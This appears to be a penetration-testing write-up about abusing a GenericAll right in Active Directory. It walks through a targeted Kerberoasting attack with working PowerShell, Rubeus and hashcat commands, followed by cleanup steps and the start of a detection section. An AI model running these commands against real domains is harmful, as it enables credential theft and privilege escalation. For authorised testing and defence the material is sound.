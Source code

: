 We can abuse **GenericAll** over the `<USER-3>` admin account (which cannot be interrupted, meaning we should not reset or disable its password since it’s actively used by admins) by setting a fake **SPN**, then Kerberoast it to grab a TGS ticket and crack the hash offline with Hashcat.

Since we added `<USER-2>` to the `Help Desk Level 1` group, and that group is _MemberOf_ `Information Technology` group we inherited rights via nested group membership. We can now use [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) to create the fake SPN.
##### Perform a Targeted Kerberoasting Attack
###### Creating a Fake SPN
```powershell
# creds2 = creds for <USER-2>

# Creating a Fake SPN
Set-DomainObject -Credential $Cred2 -Identity <USER-3> -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
###### Kerberoasting with Rubeus
```powershell
.\Rubeus.exe kerberoast /user:<USER-3> /nowrap
# [*] Hash                   : $krb5tgs$23$*USER-3$DOMIAN.LOCAL$notahacker/LEGIT@DOMIAN.LOCAL*$ <SNIP>
```
###### Cracking the USER-3 Hash with Hashcat
```bash
hashcat -m 13100 user-3_tgs_hashcat /usr/share/wordlists/rockyou.txt # RC4 hash
```
##  Cleanup
1. Remove the fake SPN we created on the `<USER-3>` user.
2. Remove the  `<USER-2>` user from the `Help Desk Level 1` group
3. Set the password for the  `<USER-2>` user back to its original value (if we know it) or have our client set it/alert the user
This order is important because if we remove the user from the group first, then we won't have the rights to remove the fake SPN.

**1-Removing the Fake SPN from USER-3 Account:**
```powershell
Set-DomainObject -Credential $Cred2 -Identity <USER-3> -Clear serviceprincipalname -Verbose
```

 **2-Removing USER-2 from the Help Desk Level 1 Group:**
```powershell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members '<USER-2>' -Credential $Cred2 -Verbose
#  Confirming
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq '<USER-2>'} -Verbose
```

## Detection and Remediation
A few recommendations around ACLs include:

1. `Auditing for and removing dangerous ACLs`
